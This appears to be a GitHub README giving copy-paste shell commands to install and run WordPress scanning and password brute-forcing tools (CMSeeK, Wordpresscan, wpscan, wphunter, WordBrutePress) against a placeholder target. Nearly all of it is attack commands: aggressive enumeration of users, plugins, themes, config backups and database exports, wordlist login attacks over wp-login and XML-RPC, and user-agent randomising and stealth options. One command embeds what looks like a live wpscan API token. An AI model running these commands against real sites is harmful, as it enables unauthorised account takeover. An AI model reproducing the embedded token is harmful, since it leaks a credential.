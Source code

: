 # Inspired in C4N6
This guide 'll help U to undertsand if your wordpress webapp is vulnerable to enumerate and bruteforce with different tools the below sub components of this cms. 

- credentials 
- plugins
- themes
- timthumbs

#
Login as root

    su
# Identify the CMS 
And provide the report of what harvested and the vulnerabilities

    cd /usr/share && git clone https://github.com/Tuhinshubhra/CMSeeK && cd CMSeeK && sudo python3 cmseek.py --update
#    
    sudo python3 cmseek.py -u https://yourtarget.com --user-agent random -r

# wordpresscan

    cd /usr/share && git clone https://github.com/swisskyrepo/Wordpresscan.git && pip install tornado
#    
    cd Wordpresscan && sudo python wordpresscan.py -u website.com --update --threads 37 --random-agent --brute --fuzz


# wpscan 

    sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev -y && cd /usr/share/wpscan && sudo bundle update && gem update && gem env && gem install wpscan && wpscan --update && wpscan --version && mkdir /usr/share/wordlists && cd /usr/share/wordlists && git clone https://github.com/4k4xs4pH1r3/bbh.git && cd bbh && mv dirbuster /usr/share/ && mv wordlists /usr/share/ && cd /usr/share/dirbuster && mkdir wordlists && cd wordlists && sudo wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkc0de.txt && mv darkc0de.txt darkc0de.lst &&  cd /usr/share/wpscan && sudo mkdir cache
    
# 
In Kali

   wpscan --url https://yourtaget.com/ --ignore-main-redirect --detection-mode aggressive --interesting-findings-detection aggressive  --wp-version-all --wp-version-detection aggressive --ua --rua -t 10 --throttle 10 --disable-tls-checks --force --update --wp-content-dir /wp-content -e --enumerate vp,vt,tt,cb,dbe,u,m --db-exports-detection aggressive --config-backups-detection aggressive  --main-theme-detection aggressive --themes-detection aggressive --medias-detection aggressive --plugins-version-detection aggressive -v --verbose --no-banner --users-detection aggressive -U ~/users -P /usr/share/wordlists/darkc0de.lst --password-attack wp-login --exclude-content-based --api-token  -o ./wpscandebuglog.txt

#
#
# 
In Parrot

   
#      
    sudo wpscan --url https://yourtarget.com/wp-admin --update --user-agent --random-agent --follow-redirection --batch --cache-dir /usr/share/wpscan/cache --wordlist /usr/share/dirbuster/wordlists/darkc0de.lst --usernames ~/users.txt --threads 50 --throttle 10 --enumerate p t u tt --debug-output 2>debug.log --wp-content-dir /wp-content --force --disable-tls-checks --disable-referer --disable-accept-header --no-banner --verbose
    
 In Docker 
 
    docker run -it --rm wpscanteam/wpscan --url https://yourtarget.com/wp-admin --update --force -t 37 --rua --detection-mode aggressive --api-token rXbXUKWwDK6FzlsTg4ydb3IQ1SW4snak0hP6dkO1YzA --detection-mode aggressive --stealthy --password-attack wp-login --plugins-detection aggressive --plugins-version-detection aggressive -v --verbose -e --enumerate vp,vt,tt,cb,dbe,u,m


# wphunter

    cd /usr/share && git clone https://github.com/Jamalc0m/wphunter.git && cd wphunter
#    
    sudo php wphunter.php http://yourtarget.com


# WordBrutePress
    
    apt install git -y && git clone https://github.com/4k4xs4pH1r3/bbh.git /usr/share/wordlists && cd /usr/share/wordlists/wordlists && mv *.* /usr/share/wordlists && mv dirb dirbuster fern-wifi wfuzz /usr/share/wordlists && rm -r /usr/share/wordlists/wordlists && git clone https://github.com/danielmiessler/SecLists.git /usr/share/SecLists && cd && apt install neofetch screenfetch -y && neofetch && cd /usr/share && git clone https://github.com/The404Hacking/WordBrutePress && pip install httplib2 && cd WordBrutePress 
#    
    python2 /usr/share/WordBrutePress/WordBrutePress.py -t http://yoursite.co/wp/ -u username -w /usr/share/SecLists/Passwords/darkc0de.lst

#
[X] You must insert http:// or https:// protocol#



#Standard login brute use this command=
-S, --standard

Xml-rpc login brute use this command=

-X, --xml-rpc
#
# by C4N6
